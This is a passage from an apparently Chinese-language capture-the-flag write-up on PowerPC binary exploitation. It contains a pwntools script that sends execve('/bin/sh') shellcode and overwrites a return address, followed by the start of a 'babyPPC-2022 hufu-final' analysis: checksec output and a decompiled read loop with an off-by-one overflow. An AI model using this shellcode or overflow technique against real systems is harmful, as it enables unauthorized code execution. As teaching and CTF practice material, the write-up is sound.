```python
r = get_sh()
r.recvuntil("Tell me your name: ")

sc = asm('''
xor 3, 3, 3
xor 4, 4, 4
xor 5, 5, 5
li 0, 11
mflr r3
addi r3, r3, 7*4
sc
.long 0x2f62696e
.long 0x2f736800
''')
r.sendline(sc.ljust(0x13c, b'\x00')+p32(0xf6ffebe8))
# 0xf6ffebe8

r.interactive()
```

## babyPPC-2022 hufu-final

题目信息,ppc64,保护全开
```bash
    Arch:     powerpc64-64-big
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

程序my_read存在offbyone溢出：
```c

uint my_read(longlong param_1,uint param_2)

{
  char s15;
  uint s14;
  
  s14 = 0;
  while ((s14 <= param_2 && (0000001b.plt_call.read@@GLIBC_2.3(0,&s15,1), s15 != '\n'))) {
    *(char *)(param_1 + ((int)s14)) = s15;
    s14 = s14 + 1;
  }
  return s14;
}


```
在函数中的条件判断`while ((s14 <= param_2 && (0000001b.plt_call.read@@GLIBC_2.3(0,&s15,1), s15 != '\n')))`存在问题。
